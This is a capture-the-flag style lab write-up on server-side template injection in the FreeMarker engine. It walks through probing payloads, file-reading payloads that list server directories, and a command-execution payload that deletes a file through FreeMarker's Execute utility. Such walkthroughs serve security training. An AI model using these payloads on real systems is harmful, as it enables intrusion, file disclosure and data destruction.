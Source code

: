 # Lab: Server-side template injection using documentation

> Lab Objective: identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

- Login using provided credentials `content-manager:C0nt3ntM4n4g3r`.

- View any product and edit the template, add `${7*7}`.
  ![1st screenshot](./attachments/1.png)

- You'll notice that the expression is evaluated when you saved the template.
  ![2nd screenshot](./attachments/2.png)

- In order to know which template engine is used, edit the template and add this payload `${foobar}`.
  ![3rd screenshot](./attachments/3.png)

- Which will cause an error indicating that Freemarker template engine is being used.
  ![4th screenshot](./attachments/4.png)

- Therefore, in order to read root directory `/` use this payload

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/').toURL().openStream().readAllBytes()?join(" ")}
```

![5th screenshot](./attachments/5.png)

- Save the template, then view it.
  ![6th screenshot](./attachments/6.png)

- Convert the output bytes to ASCII, the result:

```plaintext
.dockerenv
academy
bin
boot
dev
ecs-execute-command-15c72bbf-d0b4-44c0-abe1-62b49c63634b
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

- Do the same with `/home/` directory, using this payload

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home').toURL().openStream().readAllBytes()?join(" ")}
```

![7th screenshot](./attachments/7.png)

- Convert those Bytes to ASCII
  ![8th screenshot](./attachments/8.png)

- The output:

```plaintext
carlos
elmer
install
peter
user
```

- Do the same with carlos home directory `/home/carlos`.

  - The payload:
    ```java
    ${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos').toURL().openStream().readAllBytes()?join(" ")}
    ```
  - Bytes after converting to ASCII:
    ```plaintext
    .bash_logout
    .bashrc
    .profile
    morale.txt
    ```

- In order to delete `morale.txt`, use the following payload:

```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
```

![9th screenshot](./attachments/9.png)

- The lab is solved.
  ![10th screenshot](./attachments/10.png)

---
